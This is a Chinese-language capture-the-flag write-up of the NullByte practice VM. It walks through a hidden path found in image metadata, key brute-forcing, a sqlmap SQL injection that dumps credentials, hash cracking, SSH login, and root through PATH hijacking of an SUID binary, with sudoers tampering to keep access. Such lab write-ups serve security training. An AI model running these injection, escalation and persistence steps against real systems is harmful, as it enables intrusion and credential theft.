NullByte 靶机渗透
0x01 环境信息：
攻击机：
1
system: kali linux Ipaddress: 192.168.0.21
靶机：
1
system: 未知 Ipaddress: 未知（局域网内）
0x02 渗透过程：
- 主机发现
- 使用初期扫描脚本扫描：
- 扫描结果

可以得到：
1
2
3
4
5iPaddress: 192.168.0.113
http: 80 /phpmyadmin
rpcbind: 111
ssh: 777
system: Debian Linux先去看看web
只有这么些东西，当然还有一个
phpmyadmin也咩有密码啊然后看看这个图片是不是有隐写
下载到kali里面
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22root@kali:~# exiftool main.gif
ExifTool Version Number : 11.98
File Name : main.gif
Directory : .
File Size : 16 kB
File Modification Date/Time : 2020:05:12 14:34:45+08:00
File Access Date/Time : 2020:05:12 14:34:45+08:00
File Inode Change Date/Time : 2020:05:12 14:35:22+08:00
File Permissions : rw-r--r--
File Type : GIF
File Type Extension : gif
MIME Type : image/gif
GIF Version : 89a
Image Width : 235
Image Height : 302
Has Color Map : No
Color Resolution Depth : 8
Bits Per Pixel : 1
Background Color : 0
Comment : P-): kzMb5nVYJw
Image Size : 235x302
Megapixels : 0.071可以看到
Comment : P-): kzMb5nVYJwkzMb5nVYJw好像是密码?还是什么试了一下
phpmyadmin的密码没用啊然后我又爆破了一下目录

没啥有用的信息啊
看看是不是这个目录
果然有，要我们输入key
试试SQL注入
先抓包

再复制
copy to file保存为sqlmap.txt1
sqlmap -r sqlmap.txt
不存在SQL注入
那只能尝试爆破了


跑出来key是：
elite
就看到搜索username的
再试试有没有sql注入
可以先用fuzz测试一下
抓个包

然后
send to Intruder
payload选
Fuzzing-SQL Injection就可以可以看到有些 会报sql语句的错
1
Could not get data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''%;)(&+%"' at line 1
然后就可以使用sqlmap跑了
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36sqlmap -u http://192.168.0.113/kzMb5nVYJw/420search.php?usrtosearch=1 --dbs
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth
sqlmap -u http://192.168.0.113/kzMb5nVYJw/420search.php?usrtosearch=1 --current-db
current database: 'seth'
sqlmap -u http://192.168.0.113/kzMb5nVYJw/420search.php?usrtosearch=1 -D seth --tables
Database: seth
[1 table]
+-------+
| users |
+-------+
sqlmap -u http://192.168.0.113/kzMb5nVYJw/420search.php?usrtosearch=1 -D seth -T users --columns
Table: users
[4 columns]
+----------+-------------+
| Column | Type |
+----------+-------------+
| position | text |
| user | text |
| id | smallint(6) |
| pass | text |
+----------+-------------+
sqlmap -u http://192.168.0.113/kzMb5nVYJw/420search.php?usrtosearch=1 -D seth -T users -C user,pass --dump
Database: seth
Table: users
[2 entries]
+--------+---------------------------------------------+
| user | pass |
+--------+---------------------------------------------+
| ramses | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE |
| isis | --not allowed-- |
+--------+---------------------------------------------+可以知道一个账号密码
是不是ssh的账号密码呢？
先把密码破解出来
好像是一串base64
1
2
3root@kali:~/workspace# echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" > b64
root@kali:~/workspace# base64 -d b64
c6d6bd7ebf806f43c76acc3681703b81 base64: 输入无效得到一串MD5
c6d6bd7ebf806f43c76acc3681703b81可以用john解密也可以到网上找
我用了下john没跑出来，用在线工具一下就出来了

得到账号密码是：
ramses: omega去试试ssh吧，记得端口是777

就上了ssh了
想办法提权了
1
2
3
4
5
6# 先试试这这几个
sudo -l #（无）
crontab -l #（无）
history #（无可用的）
find / -perm -u=s -type f 2>/dev/null
/var/www/backup/procwatch找到
/var/www/backup/procwatch文件为suid权限，先运行一下看看1
2
3
4
5
6
7
8
9ramses@NullByte:/var/www/backup$ ./procwatch
PID TTY TIME CMD
1451 pts/0 00:00:00 procwatch
1452 pts/0 00:00:00 sh
1453 pts/0 00:00:00 ps
ramses@NullByte:/var/www/backup$ ps
PID TTY TIME CMD
1361 pts/0 00:00:00 bash
1454 pts/0 00:00:00 ps好像就执行了一个ps
我们可以试试偷天换日
先伪造一个ps命令，并让他找到这个ps
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21// 伪造ps命令：
echo '/bin/sh' > ps
chmod +x ps
// 使procwatch找到这个ps:
// 先看看环境变量
ramses@NullByte:/var/www/backup$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
// 把当前文件夹的放到当前位置去，他就会先找当前目录下ps
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ echo $PATH
.:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
// 执行procwatch
ramses@NullByte:/var/www/backup$ ./procwatch
# cd /root
//说明已经是root权限了
# ls
proof.txt
// 可以直接给ramses root权限
echo 'ramses ALL=(ALL:ALL) ALL' >> /etc/sudoers
exit
sudo -i就拿到了flag了~

看到第一条有个hash值，解密就是
welldone22
